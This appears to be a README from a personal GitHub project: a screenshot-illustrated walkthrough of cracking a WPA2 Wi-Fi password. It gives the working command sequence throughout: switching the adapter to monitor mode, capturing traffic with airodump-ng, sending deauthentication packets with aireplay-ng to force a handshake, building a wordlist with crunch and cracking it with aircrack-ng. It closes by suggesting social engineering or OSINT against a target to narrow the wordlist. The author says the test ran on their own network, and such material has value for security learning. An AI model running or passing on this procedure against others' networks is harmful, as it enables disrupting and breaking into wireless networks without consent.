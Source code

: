 # Run "ifconfig" to check if wireless adapter is properly connected to machine & to check adapter name. 
[+] In my case it's (wlan0).
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-12-38.png">

# Followed by "iwconfig" to check what mode your wireless adapeter is in
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-16-01.png">

# "ifconfig wlan0 down", "sudo network check kill" - to drop wlan0 conection and kill all network process connected to machine respectively.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-17-23.png">

# "iwconfig wlan0 mode monitor", "ifconfig wlan0 up" - turn on monitor mode on wireless adapter and bring up wlan0 connection.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-09.png">

# Check wlan0 status, should be in monitor mode now.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-20.png">

# "airodump-ng wlan0" - to monitor packets and wireless services around you.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-59.png">

# Displays both network and connected devices(STATION section), quit the process by hitting the "CTRL + C" on your keyboard.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-19-17.png ">

# "airodump-ng --bssid (enter bssid) --channel (enter CH) wlan0" - to monitor packets on a specific network.
[+] chose the network with the name H4CKER which is my personal network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2012-19-13.png">

# "airodump-ng --bssid (enter bssid) --channel(enter CH) --write (name file) wlan0" - capture packets in a file 
[+] Run a deauthentication attack with"aireplay-ng --deauth 10 -a (target BSSID) -c (target MAC) wlan0 " on another pane to capture network handshake.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-18.png">

# Waiting to capture handshake while device conects back to WPA2 network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-31.png ">

# Handshake should be captured once deauth attack is complete.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-39.png">

# Generate wordlist with crunch - "crunch 6 12 abc -o word.txt"
[+] name the ".txt" file as desired.
[+] generated a wordlist of a minimum of 6 and maximum of 12 characters.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-06-26.png">

# Run "aircrack-ng (captured_handshake_name) -w word.txt"
[+] use file with ".cap" extension.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-56-32.png ">

# Aircrack-ng running caputured packets with wordlist.
[+] if password is in generated wordlist aircrack should find it.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-56-45.png ">

[+] This attack was perform on my private WPA2 network 
[+] You should have a range of letters attached to target network either through social engineering or OSINT in order to generate a working wordlist.
